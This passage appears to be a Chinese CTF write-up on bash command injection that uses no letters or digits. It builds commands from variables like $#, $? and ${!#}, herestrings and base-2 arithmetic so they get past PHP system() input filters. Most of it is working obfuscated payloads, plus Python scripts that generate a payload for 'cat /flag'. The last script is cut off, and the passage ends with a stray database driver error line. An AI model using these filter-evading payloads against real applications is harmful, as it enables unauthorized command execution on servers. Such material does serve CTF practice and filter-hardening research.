 > 0
> 
> ${!#}<<<${!#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\'
> 
> # php的system解析不了${!#}这么复杂的命令把${!#}<<<${!#}替换成__=${#};${!__}<<<${!__}
> __=${#};${!__}<<<${!__}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\'
> 
> #### 利用$?构造从上一次构造我们其实可以发现，只要我们找到一个代表值为零的变量就可以得到bash进而继续构造，$?这个变量自然而然进入我的视线，它可以显示最后命令的退出状态，0表示没有错误，其他表示有错误 ，因此只要我们的payload最后不报错它的值自然还是0了：
> $0<<<$0\<\<\<\$\'\\$((2#10011010))\\$((2#10100011))\'
> 
> # 自增产生012 $______等于0用!$_____生成bash命令
> __=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((2#10011010))\\$((2#10100011))\\$((2#101000))\\$((2#111001))\'
> 
> # 用${_____}替换0，${__}替换1，${____}替换2
> __=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}${__}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\'
> 
> #### 利用$(())替代$?达到同样效果
> __=$(())&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}${__}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\'
> 
> ``````
>
> bash无代码字符数子执行命令利用脚本
>
> ```python
> cmd='cat /flag'
> 
> payload='__=${#};${!__}<<<${!__}\\<\\<\\<\\$\\\''
> for c in cmd:
>         payload+=f'\\\\$(($((1<<1))#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${##}').replace('0','${#}')
> 
> payload+='\\\''
> 
> print(payload)
> ```
>
> ``````python
> cmd='cat /flag'
> 
> payload='__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
> for c in cmd:
>         payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')
> 
> payload+='\\\''
> 
> print(payload)
> ``````
>
> ```python
> cmd='cat /flag'

[ERROR]: could not find driver